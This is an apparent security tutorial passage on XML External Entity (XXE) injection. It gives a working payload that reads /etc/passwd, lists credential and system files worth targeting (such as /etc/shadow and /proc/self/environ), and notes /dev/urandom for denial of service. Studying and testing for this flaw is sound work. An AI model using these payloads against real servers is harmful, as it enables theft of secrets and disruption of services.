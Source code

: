 When the keyword SYSTEM is added to an entity, it will attempt to load content from the specified URL. The value between quote is the URL. For XML parsing done in a small script execute locally, this seems like a nice feature. However, when the parsing is done server side, the URLs from SYSTEM entities are also resolved on the server. A malicious user could point to a file hosted on the remote server. If the server return the parsing result, it will suddenly reveal the content of this file.

```xml
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

If the application return the value inside the data node, the content of the file `/etc/passwd` will be reveal.

### Interesting files to read

`passwd` is a file that is universally present on Linux operating system.

 - `file:///etc/passwd`
 - `file:///etc/shadow` (Feeling lucky)

Hostnames, DNS resolvers and network devices information can give precious information to discover additional assets. 

 - `file:///etc/hosts`
 - `file:///etc/resolv.conf`
 - `file:///proc/self/net/dev` : Include public and internal IP

 The `/proc` virtual filesystem include various files describing the current process.

 - `file:///proc/self/cwd/FILE` : Relative paths are likely to work. `file:///proc/self/cwd/` is an alternative to `./`.
 - `file:///proc/self/cmdline` : This virtual file is returning the command and the arguments used to start the process.
 - `file:///proc/self/environ` : Environment defined in the context of the current process.


There are few files that are containing the system version. These are also files with no special characters (Useful for testing).

 - `file:///proc/version`
 - `file:///etc/lsb-release`
 - `file:///etc/issue`

For testing purpose, it might be interesting to read virtual file with infinite content. The objective of the attacker would be to either do time based detection or create some sort of Denial of Service (DOS).

 - `file:///dev/urandom` & `file:///dev/zero`










